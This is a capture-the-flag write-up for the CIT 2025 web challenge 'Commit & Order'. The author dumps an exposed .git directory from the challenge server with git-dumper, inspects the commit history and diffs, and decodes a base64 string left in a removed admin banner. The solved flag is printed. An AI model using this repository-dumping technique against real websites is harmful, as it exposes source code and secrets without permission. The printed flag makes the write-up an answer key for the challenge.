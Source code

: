 ```yaml
---
name: Commit & Order - Version Control Unit (2025)
event: CTF@CIT CTF 2025
category: Web
description: Writeup for Commit & Order - Version Control Unit (Web) - CTF@CIT CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Commit & Order: Version Control Unit

[![](https://img.youtube.com/vi/ZBdApaw0r0M/0.jpg)](https://www.youtube.com/watch?v=ZBdApaw0r0M?t=140 "Commit & Order: Version Control Uni

## Description

> In software development, the repository is represented by two separate yet equally important branches...

## Solution

Another PHP login page. Test for SQLi again, thankfully not a repeat of the first challenge 😁

Description hints at `git`, so we can check `http://23.179.17.40:58002/.git/`

It returns a `Forbidden` page, meaning that it exists _but_ we cant access it. Time to check out the [git-dumper](https://github.com/arthaud/git-dumper) tool! It takes the URL and directory to dump to.

{% code overflow="wrap" %}

```bash
git-dumper http://23.179.17.40:58002/.git/ .
```

{% endcode %}

It downloads the git repo, now we can check the log.

{% code overflow="wrap" %}

```bash
git log

commit 7c8c6a8e434cb23aa9c9dac0ce715e928016849a (HEAD -> master)
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:39:59 2025 -0400

    I think we're good for now

commit 9b8bf13600c17ba7cbbc9ac7dcffaebd36b16b36
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:39:06 2025 -0400

    changed it again

commit 68f8fcdbebcca3c8fda1e91fcb842992d09a41d4
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:34:30 2025 -0400

    putting chatgpt to work

commit 247b12483ba3a6a8d177fdd9d74416a01eb61512
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:30:08 2025 -0400

    updated some more

commit ca9517713391aca6f5073758effa47c33d3be6b4
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:26:52 2025 -0400

    updated admin page

commit 0e775315a623ed96d9b0b53e6ffb69dd06b93902
Author: webmaster <webmaster@ctf.cyber-cit.club>
Date:   Fri Apr 18 12:18:13 2025 -0400

    first commit
```

{% endcode %}

Hmmm `"putting chatgpt to work"`? Sounds like somebody has been vibe coding! Let's do a diff.

{% code overflow="wrap" %}

```bash
git diff 68f8fcdbebcca3c8fda1e91fcb842992d09a41d4

+  <h1>Admin Panel</h1>

-  <div class="main-content">
-    <div class="warning-banner">
-      <svg width="24" height="24" fill="currentColor" viewBox="0 0 24 24">
-        <path d="M1 21h22L12 2 1 21zm12-3h-2v2h2v-2zm0-8h-2v6h2v-6z" />
-      </svg>
-      This admin panel is under construction. No actual functionality is available yet. But here, have this: Q0lUezVkODFmNzc0M2Y0YmMyYWJ9
-    </div>
+  <div class="container">
+    <p>This admin page is under construction and currently has no functionality.</p>
```

{% endcode %}

Looks like a base64 encoded message, let's decode.

{% code overflow="wrap" %}

```bash
echo "Q0lUezVkODFmNzc0M2Y0YmMyYWJ9" | base64 -d

CIT{5d81f7743f4bc2ab}
```

{% endcode %}

Flag: `CIT{5d81f7743f4bc2ab}`
